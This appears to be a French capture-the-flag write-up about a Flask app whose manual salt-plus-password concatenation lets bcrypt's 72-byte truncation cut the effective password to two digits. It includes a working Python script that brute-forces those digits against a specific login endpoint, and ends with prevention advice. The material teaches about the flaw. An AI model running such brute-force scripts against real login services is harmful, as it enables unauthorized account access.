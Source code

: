 
# 🛡️ Analyse complète d’une vulnérabilité liée à `bcrypt` et la concaténation salt + mot de passe

---

## 📌 Contexte

L'application Flask ci-dessous enregistre des utilisateurs via `/register` et les authentifie via `/login` :

### 🧱 Structure concernée :


`salt = generate_salt()  # 12 emojis concaténés avec 'aa' random_password = ''.join(random.choice(NUMBERS) for _ in range(32)) password_hash = bcrypt.hashpw((salt + random_password).encode("utf-8"), bcrypt.gensalt())`

Lors de la connexion :

`bcrypt.checkpw((salt + password).encode("utf-8"), stored_hash)`

---

## 🔐 Fonctionnement de bcrypt et sa **limite de 72 octets**

### ⚠️ Caractéristique technique fondamentale :

- **bcrypt tronque silencieusement toute donnée après 72 octets**
    
- Cela signifie que si tu passes une chaîne de plus de 72 octets (bytes), **seuls les 72 premiers seront pris en compte dans le hash**
    

> 📚 **Source officielle :** OpenBSD bcrypt(3) man page
> 
> > _"Only the first 72 bytes of the password are used. Any additional bytes are ignored."_

---

## 🧪 Analyse du `salt` et du `mot de passe` dans le code

### 🔣 Le salt :

`def generate_salt():     return 'aa'.join(random.choices(EMOJIS, k=12))`

#### ➕ Ce que cela génère :

- 12 émojis, chacun suivi de `'aa'`, soit 11 fois + `'aa'` final
    
- Exemple de salt : `'🍁aa🍄aa🎵aa...😀aa'`
    

#### 🧮 Taille en octets :

- Un emoji en UTF-8 = **4 octets**
    
- `'a'` = 1 octet → `'aa'` = 2 octets
    

|Élément|Quantité|Taille unitaire|Total|
|---|---|---|---|
|Emojis|12|4 octets|48 octets|
|'aa' chaînes|11 × 2 + 1 × 2 = 22 caractères|1 octet chacun|22 octets|
|**Total**|—|—|**70 octets** ✅|

---

### 🔢 Le mot de passe :

`random_password = ''.join(random.choice(NUMBERS) for _ in range(32))`

- 32 chiffres choisis dans `'0123456789'`
    
- Un chiffre = 1 octet → 32 octets théoriques
    

---

## 🔧 Problème causé par la limite de 72 octets

### ➡️ Concaténation :

python

CopyEdit

`(salt + password).encode('utf-8')`

|Élément|Taille (octets)|
|---|---|
|Salt|70|
|Password|?|
|**Total max pris en compte par bcrypt**|72|

> ✅ Donc bcrypt ne prendra que **les 2 premiers octets** du mot de passe réel.

### 🧨 Conséquence :

Même si le mot de passe réel contient 32 chiffres, **seuls les deux premiers sont significatifs** pour la vérification avec `bcrypt.checkpw`.

---

## 🧰 Exploitation de la faille

### 🎯 Objectif :

Faire du bruteforce sur **les deux premiers chiffres** (100 combinaisons possibles)

### ✅ Code efficace :

python

CopyEdit

`import requests  url = "http://52.188.82.43:8060/login" NUMBERS = '0123456789'  for i in NUMBERS:     for j in NUMBERS:         pwd = i + j         r = requests.post(url, data={"username": "uramix", "password": pwd})         if "squ1rrel{" in r.text:             print(f"[+] Password found: {pwd}")             print(r.text)             break         else:             print(f"{pwd} is not correct")`

---

## 🧠 Pourquoi ce code fonctionne

- Le `register` a généré un hash bcrypt de `salt + 32 chiffres`, mais **le hash ne prend que les 72 premiers octets**
    
- Puisque le salt occupe déjà 70 octets, **le mot de passe utile est réduit à ses 2 premiers chiffres**
    
- En bruteforçant 00 à 99, on finit par retrouver les bons deux chiffres initiaux
    

---

## 📌 Résumé

|Élément|Contenu|Taille|Prise en compte par bcrypt|
|---|---|---|---|
|Salt|12 emojis + 22 caractères|70 octets|✅|
|Password|32 chiffres (ex: `928475...`)|32 octets|❌ (seuls les 2 premiers)|
|Total|102 octets|🔻 Tronqué à 72|✅|

---

## 🧾 Notes complémentaires

### ✅ Est-ce que bcrypt a **toujours** cette limite ?

> Oui, **toutes les implémentations standard de bcrypt** imposent cette **limite de 72 octets**, car c’est une contrainte du **format Blowfish sous-jacent**.

### 🔎 Comment se protéger ?

1. Ne jamais concaténer `salt + password` **manuellement**
    
2. Utiliser des schémas standard :
    
    - stocker séparément salt et password
        
    - utiliser des fonctions comme `bcrypt.hashpw(password.encode(), bcrypt.gensalt())`
        

### 🔥 Pourquoi c’est une vulnérabilité ?

- Une **erreur de conception** côté développeur a permis d’introduire une faille de troncature
    
- Un attaquant peut **réduire l’espace de recherche du mot de passe** de `10^32` à `10^2`
    

---




